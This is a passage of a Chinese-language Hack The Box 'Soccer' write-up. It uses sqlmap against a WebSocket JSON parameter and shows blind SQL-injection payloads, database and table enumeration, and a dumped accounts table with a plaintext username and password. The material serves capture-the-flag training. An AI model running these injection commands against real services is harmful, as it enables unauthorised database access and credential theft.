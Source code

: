 + 这里为了快速获得结果，借助SQLmap进行：

    + 查询当前数据库：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Soccer]
    └─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ···
    Parameter: JSON id ((custom) POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        Payload: {"id": "-2076 OR 2935=2935"}

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id": "1234 AND (SELECT 3080 FROM (SELECT(SLEEP(5)))BwcO)"}
    ---
    [19:25:45] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    ···
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] soccer_db
    [*] sys
    ···
    ```

    + 查询`soccer_db`表

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Soccer]
    └─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ···
    Database: soccer_db
    [1 table]
    +----------+
    | accounts |
    +----------+
    ···
    ```

    + 查询`accounts`表字段

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Soccer]
    └─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ···
    Database: soccer_db
    Table: accounts
    [1 entry]
    +------+-------------------+----------------------+----------+
    | id   | email             | password             | username |
    +------+-------------------+----------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
    +------+-------------------+----------------------+----------+
    ···
    ```
